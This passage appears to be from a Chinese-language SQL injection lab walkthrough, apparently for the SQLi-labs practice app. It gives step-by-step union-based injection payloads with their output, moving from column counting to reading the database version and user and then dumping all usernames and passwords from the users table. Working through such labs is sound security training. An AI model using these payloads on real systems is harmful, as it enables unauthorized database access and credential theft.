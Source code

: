2、确定列数为3

```
?id=1") order by 1,2,3 --+
-->正常

?id=1") order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```

3、判断回显位为2，3

```
?id=-1") union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```

4、查用户、数据库名、数据库版本

```
?id=-1") union select 1,database(),3 --+
-->security

?id=-1") union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1") union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1") union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-5
